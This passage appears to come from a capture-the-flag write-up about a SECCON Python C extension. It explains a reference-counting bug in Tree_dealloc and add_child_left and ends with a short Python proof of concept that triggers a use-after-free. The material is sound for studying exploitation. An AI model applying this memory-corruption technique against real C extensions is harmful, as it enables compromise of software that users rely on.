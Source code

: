 It's interesting to note that the fields of the `Tree` struct are not exposed as members, so expressions like `tree.object` will not work.

After some manual review, I found a bug in `Tree_dealloc`:

```c
static void
Tree_dealloc(Tree *self)
{
    Py_XDECREF(self->left);
    Py_XDECREF(self->right);
    Py_XDECREF(self->object);

    Py_TYPE(self)->tp_free((PyObject *) self);
}
```

Decrementing refcounts in deallocation functions in this manner is unsafe. If `self->object` has a reference count of one and implements a custom `__del__` method, this method is potentially still able to reference its associated `Tree` container, even though it will be unconditionally freed after. This can lead to a classic use-after-free condition, and optionally this can be converted to a double free.

To properly exploit this, we should take a look at the `add_child_left` (or right) method:

```c
static PyObject*
add_child_left(Tree *self, PyObject *args) {
    PyObject *obj;
    if (!PyArg_ParseTuple(args, "O!", &TreeType, &obj)) {
        return NULL;
    }
    if (self->left != NULL) {
        Py_DECREF(self->left);
    }
    Py_INCREF(obj);
    self->left = obj;

    Py_RETURN_NONE;
}
```

If the `left` field is replaced with another `Tree`, the old `Tree`'s reference count is decremented, triggering `Tree_dealloc` if this was the only reference. `Tree_dealloc` will in turn decrement the old `Tree`'s `object` field reference count, which can trigger a custom `__del__` method. This method can then call `get_child_left` on the root `Tree`, which will increment the reference counter again, but since we're still in `Tree_dealloc`, the `Tree` will be freed. If we save the result of `get_child_left` to a global state we get a handle to a freed object. If we do not, the reference counter will decrease again after the object goes out of scope and we're left with a double free after `Tree_dealloc` gets called again. 

So, a basic proof of concept for the user-after-free would be:

```python
from seccon_tree import Tree

root = Tree('x')

dangling_ref = None

class Pwn:
    
    def __del__(self):
        global dangling_ref
        dangling_ref = root.get_child_left()
        
def trigger():
    root.add_child_left(Tree(Pwn()))
```